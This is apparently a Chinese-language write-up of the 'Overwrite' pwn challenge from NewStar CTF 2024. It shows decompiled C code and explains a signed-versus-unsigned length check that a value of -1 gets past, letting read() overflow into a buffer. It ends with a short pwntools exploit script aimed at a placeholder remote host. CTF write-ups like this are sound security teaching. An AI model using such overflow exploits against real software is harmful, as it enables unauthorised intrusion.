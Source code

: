 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Overwrite

IDA 反编译查看源代码

```c
unsigned __int64 func()
{
  int nbytes; // [rsp+Ch] [rbp-84h] BYREF
  size_t nbytes_4; // [rsp+10h] [rbp-80h] BYREF
  char nptr[72]; // [rsp+40h] [rbp-50h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("pls input the length you want to readin: ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes > 48 )
    exit(0);
  printf("pls input want you want to say: ");
  read(0, &nbytes_4, (unsigned int)nbytes);
  if ( atoi(nptr) <= 114514 )
  {
    puts("bad ,your wallet is empty");
  }
  else
  {
    puts("oh you have the money to get flag");
    getflag();
  }
  return v4 - __readfsqword(0x28u);
}
```

在这个函数中，我们可以输入一个数值 `nbytes`，然后读取相应长度的数据到 `nbytes_4` 中。如果 `nptr` 中的字符串被转换为数字且大于 `114514`，程序会打印 `flag`，否则会输出钱包空的信息。

漏洞分析：

1. `nptr` 和 `nbytes_4` 之间的偏移是 0x30。如果输入大于 0x30 的正整数，程序将会通过 `exit()` 退出。
2. 观察到，`read()` 函数中使用的是 `unsigned int nbytes`，但在输入校验时 `nbytes` 是 `int` 类型，进行了有符号比较。这里产生了漏洞。

```c
read(0, &nbytes_4, (unsigned int)nbytes);
```

例如，`-1` 的 16 进制表示是 `0xffffffff`，对于有符号整数来说，这是一个负数；但在无符号整数中，它代表一个非常大的正整数。因此，利用这一点，输入一个负数值，可以绕过前面的大小检查，将后续输入的数据覆盖到 `nptr`，从而完成利用。

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
# p = process('./pwn')

p = remote('ip', port)
payload = b'a'*0x30 + b'114515'

p.sendlineafter(b': ', b'-1')


p.sendafter(b': ', payload)

p.interactive()
```
